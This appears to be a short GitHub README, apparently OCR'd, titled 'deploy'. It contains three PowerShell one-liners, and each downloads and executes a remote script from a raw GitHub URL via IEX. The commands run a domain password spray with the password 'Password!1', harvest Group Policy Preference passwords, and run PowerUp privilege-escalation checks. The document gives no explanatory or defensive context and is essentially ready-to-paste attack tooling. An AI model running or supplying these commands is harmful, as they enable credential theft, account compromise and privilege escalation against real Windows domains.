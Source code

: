 # deploy

IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/launchsilo/deploy/main/DomainSpray.ps1') ; Invoke-DomainPasswordSpray -Password Password!1

IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/launchsilo/deploy/main/Get-GPPPassword.ps1') ; Get-GPPPassword | ForEach-Object {$_.passwords} | Sort-Object -Uniq#

IEX(New-Object net.WebClient).downloadstring("https://raw.githubusercontent.com/launchsilo/deploy/main/PowerUp.ps1") ; Invoke-AllChecks
